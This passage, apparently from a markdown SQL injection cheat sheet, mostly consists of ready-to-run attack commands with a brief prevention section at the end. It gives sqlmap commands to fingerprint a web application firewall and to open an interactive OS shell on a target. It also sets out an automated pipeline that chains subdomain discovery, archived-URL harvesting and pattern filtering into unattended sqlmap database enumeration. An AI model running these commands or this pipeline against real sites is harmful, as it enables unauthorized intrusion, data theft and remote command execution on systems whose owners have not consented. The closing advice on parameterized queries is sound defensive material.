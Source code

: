 <br><br>
Identify the web application firewall present in the website specified in the URL given in the command, and then download the default page the web application serves. 

    sqlmap -u http://www.example.com/db.php?id=1 --identify-waf --dbms=MYSQL --download-page 

---
<br><br>
Establish an interactive shell between the remote client and the web application, allowing the remote user to execute OS commands on the remote target.  

    sqlmap -u http://www.example.com/db.php?id=1 --os-shell 

---

### Method

    subfinder -d target | tee -a domains

    cat domain | httpx | tee -a text.txt

    cat text.txt | waybackurls | tee -a urls 

    gf sqli urls >> sqli

    sqlmap -m sqli --dbs --batch

---

## Preventing SQL injection

The best way to protect against SQL injection is to never put user-supplied input directly into an SQL query. Instead, use parameterized queries, which escape potentially malicious characters, and use the appropriate data types for user-supplied input (e.g. numeric values should be validated as such).Furthermore, proper authentication and authorization should be implemented, to ensure that only users with the correct privileges can access sensitive resources.

Resources for SQL injection prevention:

 --> [Infosec Mozilla](https://infosec.mozilla.org/guidelines/web_security#web-security-cheat-sheet)

 --> [OWASP top 10](https://owasp.org/www-community/attacks/SQL_Injection)

<br>

---

